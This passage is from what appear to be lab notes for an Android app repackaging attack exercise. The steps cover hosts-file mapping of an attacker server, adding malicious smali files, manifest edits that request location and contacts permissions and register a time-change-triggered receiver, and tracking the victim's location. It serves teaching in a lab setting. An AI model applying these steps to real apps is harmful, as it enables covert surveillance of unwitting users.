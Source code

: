 - *step 2: configuring DNS*
    - the malicious code in the repackaged app will send out the victim's coordinates to the attacker's server at `www.repackagingattacklab.com`, we are going to use SEED Ubuntu VM to host this server, we need to map the hostname to the Ubuntu VM's IP address, add an entry in `/system/etc/hosts` file on the Android VM: `10.0.2.15 www.repackagingattacklab.com`

- *step 3: repackaging and installing the victim app*
    - download 3 smali files `MaliciousCode.smali`, `SendData$1.smali`, `SendData.smali`, and put them in `smali/com/mobiseed/repackaging` folder in `RepackagingLab`
    - edit the `AndroidManifest.xml`
        ```
        <manifest...>
            ...
            <uses-permission android:name="android.permission.READ_CONTACTS" />
            <uses-permission android:name="android.permission.WRITE_CONTACTS" />
            <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION" />
            <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
            <uses-permission android:name="android.permission.ACCESS_MOCK_LOCATION" />
            ...
            <application>
                ...
                <receiver android:name="com.MaliciousCode">
                    <intent-filter>
                        <action android:name="android.intent.action.TIME_SET"/>
                    </intent-filter>
                </receiver>
                <receiver android:name="com.mobiseed.repackaging.MaliciousCode">
                    <intent-filter>
                        <action android:name="android.intent.action.TIME_SET"/>
                    </intent-filter>
                </receiver>
            </application>
        </manifest>
        ```
    - assemble everything, then self-sign the apk file, uninstall the app on the Android VM, then, on the Ubuntu VM, run `adb install RepackagingLab.apk`
- *step 4: enabling the permission on the Android VM*
    - go to `Settings`, turn on all permissions for this app

- *step 5: triggering the attacking code*
    - run the app once to make it being registered, then run the mock location application and choose a location, then change the time on the Android VM to trigger the attack

- *step 6: tracking the victim*
    - once the malicious code is triggered, we can go to the Ubuntu VM, visit `http://www.repackagingattacklab.com` on the browser, we will be able to track the victim's location
